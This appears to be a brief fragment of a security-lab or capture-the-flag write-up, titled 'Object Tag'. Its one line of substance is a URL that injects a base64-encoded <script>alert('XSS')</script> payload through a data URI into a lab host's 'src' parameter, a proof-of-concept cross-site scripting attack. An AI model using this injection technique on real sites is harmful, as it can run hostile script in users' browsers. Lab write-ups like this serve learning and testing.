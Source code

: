 # Object Tag

location: http://10.13.100.182/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=